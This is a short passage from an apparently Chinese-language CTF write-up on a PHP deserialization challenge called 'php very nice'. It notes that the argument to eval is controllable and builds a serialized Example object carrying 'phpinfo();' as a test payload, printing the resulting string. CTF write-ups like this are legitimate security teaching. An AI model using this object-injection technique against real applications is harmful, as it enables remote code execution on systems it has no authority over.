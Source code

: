得到flag

------

### php very nice

反序列化

将源码复制到phpstorm中

![image-20240125173116020](image/image-20240125173116020.png)

其中eval的参数是可控的

我们可以将其进行更改，然后将其传入a中

我们构建一个PHP info的页面进行测试

```
 $a = new Example();
 $a->sys="phpinfo();";
 echo "\n";
 echo serialize($a);
 
 O:7:"Example":1:{s:3:"sys";s:10:"phpinfo();";}
 
```
